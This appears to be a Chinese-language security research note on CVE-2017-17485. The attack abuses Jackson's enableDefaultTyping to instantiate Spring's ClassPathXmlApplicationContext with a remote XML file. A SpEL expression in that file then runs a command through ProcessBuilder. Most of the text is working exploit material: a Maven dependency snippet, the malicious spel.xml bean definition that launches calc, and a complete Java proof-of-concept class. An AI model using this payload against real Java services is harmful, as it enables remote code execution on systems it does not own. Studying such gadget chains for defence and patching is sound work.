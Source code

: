 ```xml
        <groupId>org.springframework</groupId>
        <artifactId>spring-beans</artifactId>
        <version>5.3.28</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-context</artifactId>
        <version>5.3.28</version>
    </dependency>
```

spEL表达式注入：

https://godownio.github.io/2024/10/14/spel-biao-da-shi-zhu-ru/

默认singleton模式下，ClassPathXmlApplicationContext加载xml资源，并完成实例化和调用setter传参。这个xml资源可以是http路径。（无需getBean就能触发整个创建Bean的流程

```java
    public static void main(String[] args) {
        ApplicationContext applicationContext=new ClassPathXmlApplicationContext("http://127.0.0.1:8888/spel.xml");
    }
```

spel.xml内的bean需要先创建实例，再执行spEL表达式，所以得找一个能new，然后执行命令的方式，Runtime new不了

ProcesserBuilder就很合适：

```java
ProcessBuilder pb = new ProcessBuilder("command","param...");
Process pro2 = pb.start();
```

弹计算器：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg name="command" value="calc"/>
        <property name="whatever" value="#{pb.start()}"/>
    </bean>
</beans>
```

jackson能调用有参构造函数，enableDefaultTyping POC：

```java
public class PoC {  
    public static void main(String[] args)  {  
        //CVE-2017-17485  
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/spel.xml\"]";  
        ObjectMapper mapper = new ObjectMapper();  
        mapper.enableDefaultTyping();  
        try {  
            mapper.readValue(payload, Object.class);  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
}
```
